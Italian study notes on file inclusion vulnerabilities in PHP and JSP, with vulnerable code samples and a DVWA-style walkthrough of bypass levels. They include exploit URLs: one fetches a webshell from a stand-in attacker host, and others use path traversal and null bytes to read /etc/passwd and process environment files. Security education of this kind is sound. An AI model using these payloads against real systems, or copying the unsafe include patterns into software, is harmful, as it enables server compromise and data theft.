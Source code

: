 ## File inclusion

- https://en.wikipedia.org/wiki/Remote_File_Inclusion
- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion
- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion

Si ha questa vulnerabilità quando un'applicazione crea un path per il codice eseguibile usando una variabile che è sotto il controllo dell'attaccante,
in un modo che gli permette di controllare quale file viene eseguito.
Lo sfruttamento di una vulnerabilità di questo tipo permette una RCE sul server che esegue l'appicazione vulnerabile.

- Remote File Inclusion: l'applicazione scarica ed esegue un file remoto
- Local File Inclusion: come il RFI ma il file sfruttato è presente sul server

**PHP**

Funzioni che includono un file per l'esecuzione sono `include` e `require`.
La direttiva `allow_url_fopen` o `allow_url_include` (in `php.ini`) abilitata permette di usare una URL per scaricare un file remoto ed eseguirlo.
Anche se disabilitato è raggirabile con compressione (`zlib://`) o stream audio (`ogg://`) che non ispezionano il flag URL PHP interno.
Si possono sfruttare anche i wrapper PHP come `php://input`.

Codice vulnerabile:

```
<form method="get">
   <select name="language">
      <option value="english">English</option>
      <option value="french">French</option>
      ...
   </select>
   <input type="submit">
</form>

<?php
   if ( isset( $_GET['language'] ) ) {
      include( $_GET['language'] . '.php' );
   }
?>
```

Exploit:

```
/vulnerable.php?language=http://evil.example.com/webshell.txt?
/vulnerable.php?language=C:\\ftp\\upload\\exploit
/vulnerable.php?language=C:\\notes.txt%00
/vulnerable.php?language=../../../../../etc/passwd%00
/vulnerable.php?language=../../../../../proc/self/environ%00
```

**JSP**

Anche le JSP sono vulnerabili a Null byte injection (`%00`)

Codice vulnerabile:

```
<%
   String p = request.getParameter("p");
   @include file="<%="includes/" + p +".jsp"%>"
%>
```

Exploit:

```
/vulnerable.jsp?p=../../../../var/log/access.log%00
```

### File Inclusion - Low

```
// The page we wish to display
$file = $_GET[ 'page' ];
```

Exploit:

- RFI

	- creare il file `rfi-low.php` contenente `<?php phpinfo(); ?>`
	- accedere a `http://172.17.0.2/vulnerabilities/fi/?page=http://172.17.0.3/rfi-low.php`


- LFI: `http://172.17.0.2/vulnerabilities/fi/?page=/etc/passwd`

### File Inclusion - Medium

```
// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file ); 
```

Exploit:

- RFI: `http://172.17.0.2/vulnerabilities/fi/?page=Http://172.17.0.3/rfi-low.php`, notare `Http` nell'URL della risorsa acceduta

- LFI: `http://172.17.0.2/vulnerabilities/fi/?page=/etc/passwd`

### File Inclusion - High

```
// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) { ... }
```

fnmatch — Match filename against a pattern

Exploit:

- LFI: `http://172.17.0.2/vulnerabilities/fi/?page=file:///etc/passwd`

